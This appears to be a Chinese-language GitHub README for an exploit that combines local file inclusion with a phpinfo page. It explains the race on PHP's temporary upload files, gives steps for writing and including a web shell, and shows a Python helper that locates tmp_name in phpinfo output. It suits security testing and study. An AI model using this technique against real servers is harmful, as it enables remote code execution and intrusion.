


# LFI-With-PHPInfo-Assitance

- 利用条件
    - 存在lfi漏洞
    - 存在可访问phpinfo网页

- 利用原理
    - php会把post请求, 存储在临时文件中, 并在请求结束后删除临时文件
    - phpinfo中会显示_FILE变量, 其中会显示临时文件路径
    - 所以可以通过发送数据量大的请求, 拖延php删除临时文件的时间, 同时查看_FILE得到临时文件位置, 并使用lfi漏洞对其进行包含从而执行

- 利用步骤
    1. 发送post请求到phpinfo,  post的内容为一个创建shell文件的payload
    2. 通过有lfi漏洞的页面包含payload, payload被执行然后创建shell文件
    3. 通过lfi页面包含shell文件, 并传参, 从而进行利用

- 环境部署
    - 将lfi_phpinfo文件夹放到测试网站目录下
    - 然后修改lfi_phpinfo.py 中的参数然后执行
    
- 测试结果
    - 

    - 
- 代码中有详细注释
    ```python
    def get_offset(host, port, phpinfo_request):
        """
        获取tmp_name在phpinfo中的偏移量
        :param host: HOST
        :param port: 端口
        :param phpinfo_request: phpinfo 请求内容
        :return:
            tmp_name在phpinfo中的偏移量
        """

        phpinfo_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        phpinfo_socket.connect((host, port))
        phpinfo_socket.send(phpinfo_request.encode())
        phpinfo_response_data = ''
        while True:
            i = phpinfo_socket.recv(4096).decode()
            phpinfo_response_data += i
            if i == '':
                break

            # 检测是否是最后一个数据块
            if i.endswith('0\r\n\r\n'):
                break
        phpinfo_socket.close()
        tmp_name_index = phpinfo_response_data.find('[tmp_name] =&gt')
        if tmp_name_index == -1:
            raise ValueError('没有在phpinfo中找到tmp_name')
        print('找到了 {} 在phpinfo内容索引为{}的位置'.format(
            phpinfo_response_data[tmp_name_index:tmp_name_index+10], tmp_name_index))

        return tmp_name_index + 256
    ```
- 参考: https://dl.packetstormsecurity.net/papers/general/LFI_With_PHPInfo_Assitance.pdf
